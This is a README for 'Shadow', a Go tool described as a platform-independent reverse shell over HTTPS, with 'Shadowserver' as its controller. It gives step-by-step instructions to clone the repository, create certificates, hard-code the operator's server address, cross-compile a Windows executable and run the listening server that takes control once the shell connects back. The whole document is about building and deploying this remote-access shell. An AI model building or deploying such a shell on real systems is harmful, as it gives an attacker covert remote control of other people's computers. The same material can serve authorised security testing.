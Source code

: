 # Shadow - A platform independent reverse shell over https.

#####  Shadow is a reverse shell over https and Shadowserver is a manager for Shadow .

## Getting Started

##### git clone https://github.com/diljithishere/shadow.git
##### cd shadow/src
#### Create certs
#### openssl genrsa -out server.key 2048
#### openssl -new -x509 -days 1826 -key server.key -out server.crt
#### Build Shadow 
#### Update your shadowserver ip  {shadowserver := "https://ip:port"}
##### GOOS=windows GOARCH=386 go build -o shadow.exe shadow.go

#### Build Shadow Server
##### go build -o shadowserver shadowserver.go 
#### Run Shadow Server 
##### ./shadowserver

#### Once if the shadow runs Shadowserver's prompt will change to <<Talk to Shadow>>


### Prerequisites

#### Go 1.9

## Built With
#### Go Lang

## Author

* **Diljith S** - *Initial work* - (https://github.com/diljithishere)
